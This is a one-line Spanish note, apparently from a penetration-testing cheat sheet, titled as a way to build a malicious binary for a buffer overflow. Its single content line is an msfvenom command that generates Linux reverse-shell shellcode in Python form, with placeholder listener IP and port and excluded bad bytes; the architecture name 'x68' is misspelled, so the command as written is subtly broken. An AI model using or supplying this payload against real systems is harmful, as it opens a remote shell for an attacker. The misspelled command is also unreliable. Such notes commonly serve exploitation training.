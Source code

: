 
# crear un binario malicioso para un buffer overflow

```bash
1) msfvenom -p linux/x68/shell_reverse_tcp LHOST=ip LPORT=port -f python -b "\x00\x0a\x0d"
```